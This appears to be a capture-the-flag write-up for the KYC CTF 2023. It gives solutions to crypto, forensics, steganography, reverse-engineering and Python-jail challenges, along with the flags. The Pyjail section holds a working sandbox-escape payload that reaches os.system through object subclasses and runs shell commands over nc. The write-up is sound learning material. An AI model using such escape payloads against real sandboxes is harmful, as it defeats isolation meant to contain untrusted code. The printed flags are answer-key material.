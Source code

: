# Know Your Click KYC CTFv1 - 2023

## Table of Contents
- [Challenges](#challenges)
    - [Cryptography](#cryptography)
        - [I am a Clueless](#i-am-a-clueless)
        - [Quick Quick Mathematics](#quick-quick-mathematics)
    - [Forensics](#forensics)
        - [Locate me](#locate-me)   
    - [Steganography](#steganography)
        - [1nv1s1bl3](#1nv1s1bl3)
    - [Reverse Engineering](#reverse-engineering)
        - [Keith Orders a Pizza](#keith-orders-a-pizza)
    - [Sandbox](#sandbox)
        - [Pyjail](#pyjail)


## Challenges

### Cryptography

#### I am a Clueless
- Points: 482
- Description: `I know it sounds mental, but sometimes I have more fun vegging out than when I go partying. Maybe because my party clothes are so binding. But the question is : Who am I? (You don't know my name)`
- Ciphertext: `7ax6dx72x4fx47x01x04x6ex56x73x42x5dx52x6bx55x01x46x6ex4dx03x44x6bx59x41x5bx00x05x4c`
- Key :`14(ILOVEYOU)`
- Key : `14143`

Solution:
- After every two letters x is repeating in cipher text.
- So we created python script to solve this challenge.
- Script is available at ../Scripts/Cluess.py 
- Then wrap it in the flagformat KYC{}.
- Flag: `KYC{t00_b@sic_f0r_y0u_huh11}`
![image](https://user-images.githubusercontent.com/82113145/215673287-0ee23bb1-c2c8-4a71-a111-385af8d3649c.png)



#### Quick Quick Mathematics
- Points: 207
- DEscription : `Dodo has encrypted a message with the same value of 'e' for 3 public moduli - n1 = 86812553978993 n2 = 81744303091421 n3 = 83695120256591 and got the cipher texts - c1 = 8875674977048 c2 = 70744354709710 c3 = 29146719498409 Find the original message.`


Solution:
- We can solve this challenge by just using hastad attack. 
- We created this python script to solve this challenge.
```
from pwn import remote
from sympy.ntheory.modular import crt
from gmpy2 import iroot

e = 3
N = [86812553978993, 81744303091421, 83695120256591]
C = [8875674977048, 70744354709710, 29146719498409]

resultant, mod = crt(N,C)
value, is_perfect = iroot(resultant,e)
print(bytes.fromhex(str(value)).decode())

```
- Flag: `KYC{h45t4d}`

### Forensics

#### Locate me
- Points: 148
- Description: `Our forensics experts have acquired the following traffic using a MITM during a pentesting. Can you help us locating the file extracted by hackers?`

Resources/Scripts:
- [CaptureFile](./Scripts/infiltration.pcapng)
- Wreshark Tool

Solution:
- This a network analysis challenge.
- The challenge description says that we have to the file name which attacker extracted from the infected server. 
- We can see some protocols in the capture such as HTTP,TCP,SMB,FTP,etc..
- There are 2 protocols which are mainly for file transfer: SMB & FTP.
- I checked FTP but no good results.
 ![https://imgur.com/a/2hilcZm](https://i.imgur.com/KW3frOL.png)
- But when I checked SMB Protocol, I got the file name which is `PSEXESVC.EXE`.
 ![https://imgur.com/a/pzl4HaB](https://i.imgur.com/nvE4iOg.png)
- So the flag is: `KYC{PSEXESVC_EXE}`


### Steganography

#### 1nv1s1bl3
- Points: 128
- Description: `I am john cena.`

Resources/Scripts:
- [ZeroWidthEncodeDecode](https://330k.github.io/misc_tools/unicode_steganography.html)
- [EncodedFile](./files/invisible/1nv1s1bl3.txt)

Solution:
- The challenge name suggests that the flag is invisible/hidden.
- After looking into the file, the number of characters is more than the count of the characters.
- This is probably the ZeroWidth Character Steganography.
- Copy all the text and goto [this](https://330k.github.io/misc_tools/unicode_steganography.html) link and paste it in right side and click decode. We'll get the flag.
 ![https://imgur.com/a/rBuh0HH](https://i.imgur.com/XsdGaxn.png)
- Flag: `KYC{1_Am_j0hn_c3na}`



### Reverse Engineering

#### Keith Orders a Pizza
- Points: 196
- Description: `Keith’s friend wants to get a pizza. When Keith asked their friend what topping he should get, their friend wrote the following code down on a napkin, and told them that the solution would be his favorite topping. See if you can help Keith break the code.`

Resources/Scripts:
- [Challenge Code](./files/KeithPizza/topping.java)
- [Solution Code](./files/KeithPizza/decode.py)

Solution:
- This is a basic java code where there are 2 functions used the encode the text.
- I have written the python code to reverse that function and find the flag and mentioned it in Resources/Scripts.
- Flag: `KYC{anchovies}`


### Sandbox

#### Pyjail
- Points: 250
- Description: `Break the jail :)`

Resources/Scripts:
- [Link](https://example.com)

Solution:
- We are given a sandboxed python shell where we can't import any modules.
- We are only allowed to use already imported builtin modules which are not blacklisted.
- By using this command we can list all the classes and functions in the module.
```
print(().__class__.__bases__[0].__subclasses__())
```
- We can see that there is a `_wrap_close` class in the `os` module.
- The parent of this class is `os`.
- By using this, we'll execute commands.
- First we'll get the index of `_wrap_close` class in the list but using this command:
```
print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
```
- Then we can execute os commands by using this command:
```
print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
```
- We can see that there is a `Flag.txt` file.
- Now we can read the file by using this command:
```
print(open('Flag.txt').read())
```
- Complete Commands:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ nc 23.23.44.100 5000
>>> print([entry.__name__ for entry in ().__class__.__bases__[0].__subclasses__()].index("_wrap_close"))
137
>>> print([].__class__.__mro__[1].__subclasses__()[137].__init__.__globals__['system']('ls'))
Dockerfile
Flag.txt
build.sh
jail.py
0
>>> print(open('Flag.txt','r').read())
KYC{Y0u_Br3k4n_th3_j@1l}
```

- Flag: `KYC{Y0u_Br3k4n_th3_j@1l}`
